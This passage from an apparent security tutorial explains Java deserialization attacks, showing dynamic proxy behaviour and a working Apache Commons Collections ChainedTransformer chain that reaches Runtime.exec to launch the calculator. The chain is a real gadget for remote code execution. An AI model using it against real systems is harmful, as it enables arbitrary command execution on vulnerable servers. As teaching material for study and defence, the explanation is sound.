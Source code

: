 The above, would produce the following output:

```
Invoked method: toString
toString
```

Showing that any code contained in the `invoke` function gets executed when a method of the proxy is called. Using this approach, it is possible to force the execution of arbitrary code whenever a specific method is invoked.

*It should be noted that the use of `map`, is arbitrary, whatever object class could be used on its place.*

Another useful pattern (technically more a class than a pattern), which is crucial to understand how it is possible to trigger remote code execution during deserialization, is the `ChainedTransformer` class.

A transformer, in JAVA, is a class which takes an object and returns a new object instance. A chained transformer, for instance, can chain multiple transformer togheter to transform an object multiple times, in sequence. To understand how this can be used to reach RCE, the following code may be taken as example:

```java
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ExeCmdInvokerTransformer {
    
    public static void main(String args[]) {
        
        final String[] execArgs = new String[]{"cmd /c calc"};
        
        // Chain to transform object in -> ((Runtime)Runtime.class.getMethod("getRuntime").invoke(Object.class, null)).exec("cmd /c calc");
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, 
                execArgs
                 ),
            new ConstantTransformer(1)};
        
        Transformer transformerChain = new ChainedTransformer(transformers);
        
        // Testing the transformer
        Object object = new Object();
        transformerChain.transform(object);
    }
}
```
